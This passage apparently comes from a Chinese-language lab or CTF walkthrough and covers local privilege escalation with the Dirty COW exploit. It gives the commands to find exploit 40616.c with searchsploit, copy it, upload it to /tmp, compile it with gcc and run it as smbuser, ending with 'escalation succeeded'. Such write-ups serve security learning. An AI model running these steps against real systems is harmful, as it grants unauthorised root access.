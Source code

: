 ![26](https://havocykp.github.io/assets/images/img_blog2/26.png)

命令：searchsploit dirty

![27](https://havocykp.github.io/assets/images/img_blog2/27.png)

搜索具体的文件路径：

命令：searchsploit -p 40616.c

复制文件到根目录：

命令：cp /usr/share/exploitdb/exploits/linux/local/40616.c ./

![28](https://havocykp.github.io/assets/images/img_blog2/28.png)

将脏牛文件上传到tmp目录下

![29](https://havocykp.github.io/assets/images/img_blog2/29.png)

在smbuser用户登录下，编译运行脏牛脚本

命令：gcc -pthread 40616.c -o dirty -lcrypt

![30](https://havocykp.github.io/assets/images/img_blog2/30.png)

查看生成的脚本并赋予权限

![31](https://havocykp.github.io/assets/images/img_blog2/31.png)

开始执行

命令：[smbuser@fileserver tmp]$ ./dirty 

提权成功

![32](https://havocykp.github.io/assets/images/img_blog2/32.png)

